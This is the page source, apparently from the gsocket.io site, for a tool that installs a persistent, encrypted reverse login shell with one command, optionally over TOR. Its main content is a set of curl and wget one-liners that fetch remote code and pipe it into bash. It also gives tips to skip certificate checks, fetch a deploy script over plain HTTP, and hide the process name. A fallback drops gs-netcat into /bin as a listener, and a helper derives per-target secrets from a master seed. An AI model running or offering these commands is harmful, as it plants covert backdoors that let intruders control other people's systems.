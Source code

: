 ```yaml
---
layout: default
---
```


<h2 align="center">Index -- Test version</h2>

<p class="panel-note2" markdown="1">Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like.</p>

> _This must be the quickest way to access a system_ -- anonymous

Use either one of these two commands to _install_, _uninstall_, and _access_:

<!-- This is obviously the tabs wrapper -->
<div class="tabs-wrapper">
    <!-- And here the tabs container -->
    <div class="tabs">
        <!-- This is the first tab -->
        <div class="tab">
            <!-- "checked" means active tab -->
            <input type="radio" name="css-tabs-init" id="curl-init" class="tab-switch" checked>
            <!-- This is the tab selector -->
            <label for="curl-init" class="tab-label">Curl</label>
            <!-- This is the tab content container -->
            <div class="tab-content">
                <ul>
                    <li><p><strong>Install</strong></p>
<!--
This is how to reproduce the syntax highlighting with "rouge"
You must respect this weird placement to avoid extra rendered space
See here for more details:
https://jekyllrb.com/docs/liquid/tags/#code-snippet-highlighting
-->
{% highlight shell %}
bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Uninstall</strong></p>
{% highlight shell %}
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Access</strong></p>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
        <!-- This is the second tab -->
        <div class="tab">
            <input type="radio" name="css-tabs-init" id="wget-init" class="tab-switch">
            <label for="wget-init" class="tab-label">Wget</label>
            <div class="tab-content">
                <ul>
                    <li><p><strong>Install</strong></p>
{% highlight shell %}
bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
                <ul>
                    <li><p><strong>Uninstall</strong></p>
{% highlight shell %}
GS_UNDO=1 bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
                <ul>
                    <li><p><strong>Access</strong></p>
{% highlight shell %}
S="ExampleSecretChangeMe" bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
    </div>
</div>

<p class="panel-note2" markdown="1">This is just one of many GSOCKET examples. More on [GitHub]({{site.github.repository_url}}).</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

<div class="tabs-wrapper">
    <div class="tabs" style="height: 25.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-tricks" id="curl-tricks" class="tab-switch" checked>
            <label for="curl-tricks" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 23.5rem;">
                <ul>
                    <li><p><strong>Ignore SSL / Certificate warnings</strong></p>
{% highlight shell %}
bash -c "$(curl -fsSLk gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy with a predefined secret</strong></p>
{% highlight shell %}
X=ExampleSecretChangeMe bash -c "$(curl -fsSL gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong></p>
{% highlight shell %}
curl -fsSL http://nossl.segfault.net/deploy-all.sh && \
bash ./deploy-all.sh
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-tricks" id="wget-tricks" class="tab-switch">
            <label for="wget-tricks" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 23.5rem;">
                <ul>
                    <li><p><strong>Ignore SSL / Certificate warnings</strong></p>
{% highlight shell %}
bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy with a predefined secret</strong></p>
{% highlight shell %}
X=ExampleSecretChangeMe bash -c "$(wget --no-verbose -O- gsocket.io/x)"
{% endhighlight %}
                    </li>
                    <li><p><strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong></p>
{% highlight shell %}
wget --no-hsts http://nossl.segfault.net/deploy-all.sh && \
bash ./deploy-all.sh
{% endhighlight %}
                    </li>
                </ul>
            </div>
        </div>
    </div>
</div>

Useful environment variables:  

|:---|:---|
|S=|Connect to a system (or use `gs-netcat -s <secret> -il`).|
|X=|Set a predefined secret for the installation (X like in inXstallation).|
|GS_NOINST=1|Only start but without installing (will not survive a reboot).|
|GSOCKET_ARGS=|Use additonal arguments. Most often used to force TOR in combination with S=, e.g. `GSOCKET_ARGS="-T" S=<secret> bash -c "$(curl -fsSLk gsocket.io/x)`.|
|GS_DSTDIR=|Set the installation directory. The default is to pick the most suitable automatically. Use `find . -type d -writable`. |
|GS_URL_BASE=|Use URL for static binaries. The default is https://github.com/hackerschoice/binary/raw/main/gsocket/bin/.|
|GS_OSARCH=|Force architecture. The default is to pick the most suitable automatically.
|GS_DEBUG=1|Verbose output and other debug related settings. Often used together with `GS_DEBUG=1 GS_NOSTART=1 GS_NOINST=1 bash -c "$(curl -fsSL gsocket.io/x)"`.|
|GS_HIDDEN_NAME=|Use a custom hidden process name.|
|TMPDIR=|Use a custom temporary directory. Try TMPDIR=$(pwd)|

If all fails:

Download the static binary from [https://github.com/hackerschoice/binary/tree/main/gsocket/bin](https://github.com/hackerschoice/binary/tree/main/gsocket/bin) (likely [gs-netcat_x86_64-alpine.tar.gz](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz)) and extract and start gs-netcat manually:

<div class="tabs-wrapper">
    <div class="tabs" style="height: 12.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-manual" id="curl-manual" class="tab-switch" checked>
            <label for="curl-manual" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 10.5rem; padding-left: 1.2em;">
{% highlight shell %}
curl -fsSL https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-manual" id="wget-manual" class="tab-switch">
            <label for="wget-manual" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 10.5rem; padding-left: 1.2em;">
{% highlight shell %}
wget --no-check-certificate -qO- https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 
{% endhighlight %}
            </div>
        </div>
    </div>
</div>

{:refdef: style="text-align: center;"}
## Advanced Tips & Tricks
{: refdef}

Remembering many secrets from many deployments is cumbersome. It is easier to remember just one MASTER-SEED and derive the SECRET from the target's hostname. The following script generates a secure SECRET based on a single MASTER-SEED and the target's hostname.

<div class="tabs-wrapper">
    <div class="tabs" style="height: 35.45rem;">
        <div class="tab">
            <input type="radio" name="css-tabs-advanced" id="curl-advanced" class="tab-switch" checked>
            <label for="curl-advanced" class="tab-label">Curl</label>
            <div class="tab-content" style="height: 33.5rem; padding-left: 1.2em;">
{% highlight sh %}
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gssec()
{
    str="$(echo "${GS_SEED:?}$1" | sha512sum | base64 | tr -d -c a-z0-9)"
    str="${str:0:22}"
    echo "DEPLOY: X=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: S=${str}"' bash -c "$(curl -fsSL gsocket.io/x)"'
    echo "ACCESS: gs-netcat -s ${str} -i"
}

# Pick a STRONG master seed:
[[ -z $GS_SEED ]] && GS_SEED=MySuperStrongMasterSeed
{% endhighlight %}
{% highlight sh %}
# Generate a SECRET based on the SEED and 'alice.com'
$ gssec alice.com # You only need to know "alice.com" to connect.

# Output from above's command:
DEPLOY: X=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: S=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL gsocket.io/x)"
ACCESS: gs-netcat -s 2m1zidi1zkkmxjjj0z0jlj -i
{% endhighlight %}
            </div>
        </div>
        <div class="tab">
            <input type="radio" name="css-tabs-advanced" id="wget-advanced" class="tab-switch">
            <label for="wget-advanced" class="tab-label">Wget</label>
            <div class="tab-content" style="height: 33.5rem; padding-left: 1.2em;">
{% highlight sh %}
# cut & paste this into your shell on your workstation or add to ~/.bashrc
gssec()
{
    str="$(echo "${GS_SEED:?}$1" | sha512sum | base64 | tr -d -c a-z0-9)"
    str="${str:0:22}"
    echo "DEPLOY: X=${str}"' bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"'
    echo "ACCESS: S=${str}"' bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"'
    echo "ACCESS: gs-netcat -s ${str} -i"
}

# Pick a STRONG master seed:
[[ -z $GS_SEED ]] && GS_SEED=MySuperStrongMasterSeed
{% endhighlight %}
{% highlight sh %}
# Generate a SECRET based on the SEED and 'alice.com'
$ gssec alice.com # You only need to know "alice.com" to connect.

# Output from above's command:
DEPLOY: X=2m1zidi1zkkmxjjj0z0jlj bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
ACCESS: S=2m1zidi1zkkmxjjj0z0jlj bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
ACCESS: gs-netcat -s 2m1zidi1zkkmxjjj0z0jlj -i
{% endhighlight %}
            </div>
        </div>
    </div>
</div>

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>

<!-- Tooltips test -->
<!-- <button class="copy-button test"><img width="16" src="/assets/icons/copy_16.svg" alt="Copy to clipboard" title="Copy to clipboard"></button> -->

<script>
// Standalone Methods
const thc = {
    verbose: false,
    showTooltip: (element, text, direction) => {
        // Target element
        const el = element.children[0];

        // Tooltip code
        const tooltipHTML = `<div class="tooltip"><span class="tooltiptext ${direction}">${text}</span></div>`;

        // Debug
        if (thc.verbose === true) {
            console.log('Called from element:', element);
            console.log('Element children:', element.children);
            console.log('Target element:', el);
        }

        // Add tooltip element
        el.insertAdjacentHTML('afterend', tooltipHTML);

        // Lookup created tooltip element
        const tooltipContainer = document.querySelector('.tooltip');
        const tooltipContent = tooltipContainer.children[0];

        // Debug
        if (thc.verbose === true) {
            console.log('Related tooltip:', tooltipContainer);
            console.log('Tooltip content:', tooltipContainer.children[0]);
        }

        // Reveal tooltip
        tooltipContent.style.opacity = 1;

        // Attach mouse event just once
        el.addEventListener('mouseleave', (event) => {
            // Target element
            const el = event.target;

            // Debug
            if (thc.verbose === true) {
                console.log('Mouse [mouseleave] event received:', event);
                console.log('Target element:', el);
            }

            // Lookup created tooltip element
            const tooltipContainer = document.querySelector('.tooltip');
            const tooltipContent = tooltipContainer.children[0];

            // Debug
            if (thc.verbose === true) {
                console.log('Related tooltip:', tooltipContainer);
                console.log('Tooltip content:', tooltipContainer.children[0]);
            }

            // Hide tooltip
            tooltipContent.style.opacity = 0;

            // Remove tooltip with a delay
            const delayedRemoval = setTimeout(() => {
                document.querySelectorAll('.tooltip').forEach((el) => {
                    // Debug
                    if (thc.verbose === true) {
                        console.log('Removing tooltip.', el);
                    }

                    // Remove detected tooltip
                    el.remove();

                    // Remove timeout
                    clearTimeout(delayedRemoval);
                });
            }, 1000);
        }, { once: true });
    }
}
</script>

<!-- Adding some 'magic' on tabs ;) -->
<script>
(() => {
    const tabsDebug = thc.verbose || false;
    const tabsSelector = 'input.tab-switch';
    document.querySelectorAll(tabsSelector).forEach((el) => {
        const id = el.id;
        const type = id.split('-')[0];
        if (tabsDebug === true) {
            console.log('[change] event listener attached on', id, '- type:', type);
        }
        el.addEventListener('change', (event) => {
            if (tabsDebug === true) {
                console.log('Change event triggered.', event);
            }
            let targetTabs = String(event.target.id).includes(type) ? type : 'undefined';
            if (tabsDebug === true) {
                console.log(`Should select other [${targetTabs}] tabs.`);
            }
            document.querySelectorAll(tabsSelector).forEach((target) => {
                if (String(target.id).includes(targetTabs) && !target.checked) {
                    target.checked = true;
                }
            });
        });
    });
})();
</script>

<!-- Adding some other 'magic' on code snippets :P -->
<!--
Done: Add CSS tooltips
From: https://www.w3schools.com/css/css_tooltip.asp
Comment: Yes, I'm lazy and don't remind everything. Don't blame me.
Goal: Keep things as light as possible.
Reached: Replaced 'showTooltip()' method from GitHub Primer by custom one.
Author: Doctor Who (Jiab77)
-->
<script>
(() => {
    // Copy icon from GitHub Primer
    // https://primer.style/design/foundations/icons
    
    const clipDebug = thc.verbose || false;
    const snippets = document.querySelectorAll('figure.highlight pre');
    snippets.forEach((snippet) => {
        if (clipDebug === true) {
            console.log('Connected on element:', snippet);
        }
        snippet.firstChild.insertAdjacentHTML(
            'beforebegin',
            '<button class="copy-button" data-clipboard-snippet><img width="16" src="/assets/icons/copy_16.svg" alt="Copy to clipboard" title="Copy to clipboard"></button>'
        );
    });
    
    const clipboardSnippets = new ClipboardJS('[data-clipboard-snippet]', {
        target: (trigger) => {
            return trigger.nextElementSibling; // 'nextElementSibling' is used because the button is placed before the other elements
        }
    });
    
    clipboardSnippets.on('success', function(e){
        e.clearSelection();
        if (clipDebug === true) {
            console.log('Received [success] event.', e);
            console.log('Action:', e.action);
            console.log('Text:', e.text);
            console.log('Trigger:', e.trigger);
        }
        thc.showTooltip(e.trigger,'Copied!', 'right');
    });

    clipboardSnippets.on('error', function(e){
        console.log('Received [error] event.', e);
        console.error('Action:', e.action);
        console.error('Trigger:', e.trigger);
        thc.showTooltip(e.trigger,fallbackMessage(e.action), 'right');
    });
})();
</script>